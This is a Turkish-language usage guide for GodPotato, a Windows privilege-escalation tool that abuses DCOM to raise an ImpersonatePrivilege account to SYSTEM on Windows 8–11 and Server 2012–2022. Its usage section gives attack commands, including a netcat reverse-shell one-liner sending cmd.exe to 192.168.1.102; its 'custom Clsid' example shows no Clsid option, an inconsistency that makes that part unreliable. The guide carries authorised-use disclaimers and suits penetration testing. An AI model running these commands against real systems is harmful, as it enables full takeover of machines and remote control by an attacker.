 # GodPotato Kullanım Rehberi

## GodPotato Nedir?

**GodPotato**, Windows sistemlerinde "Potato" tabanlı bir yetki yükseltme aracıdır. Bu aracın temel hedefi, Windows Server 2012'den Windows Server 2022'ye kadar olan sistemlerde "ImpersonatePrivilege" yetkisine sahip kullanıcıların, "NT AUTHORITY\SYSTEM" seviyesine yetki yükseltmesini sağlamaktır. 

DCOM protokolü üzerine yapılan araştırmalar sonucu bulunan bu yöntem, RPCSS servisindeki belirli eksiklikleri kullanarak çalışır.

> **Önemli Not:** GodPotato, yetkili ortamlarda ve etik kullanım amacıyla kullanılmalıdır. Yetkisiz kullanımlar yasa dışıdır.

---

## Etkilenen Sistemler

- **Windows Server:** 2012 - 2022
- **Windows:** 8 - 11

---

## Özellikler

- DCOM tabanlı yetki yükseltme.
- Web ve veritabanı servisleri gibi "ImpersonatePrivilege" yetkisine sahip kullanıcılar için sistem seviyesinde yetki alma.

---

## Gereksinimler

- **Windows işletim sistemi**
- "ImpersonatePrivilege" yetkisine sahip bir kullanıcı hesabı

---

## Kullanım

### Genel Kullanım

```bash
GodPotato.exe -cmd "<komut>"
```

| Parametre | Açıklama                                |
|-----------|----------------------------------------|
| `-cmd`    | Çalıştırılacak komutu belirtir (Varsayılan: `cmd /c whoami`). |

---

### Örnek Komutlar

#### Basit Komut Çalıştırma

Bir kullanıcının mevcut yetkisini kontrol etmek için:

```bash
GodPotato.exe -cmd "cmd /c whoami"
```

#### Ters Kabuk (Reverse Shell) Bağlantısı Oluşturma

Hedef sistemden ters kabuk bağlantısı alınması için:

```bash
GodPotato.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

#### Özelleştirilmiş Clsid ile Komut Çalıştırma

Belirli bir Clsid kullanarak komut çalıştırma:

```bash
GodPotato.exe -cmd "cmd /c whoami"
```

---

## Teşekkürler

- **zcgonvh**
- **skay**

---

## Lisans

Bu proje **Apache License 2.0** ile lisanslanmıştır.

> **Uyarı:** Bu aracın yanlış kullanımı yasa dışıdır. Yalnızca yetkili ve etik ortamlarda kullanılmalıdır.
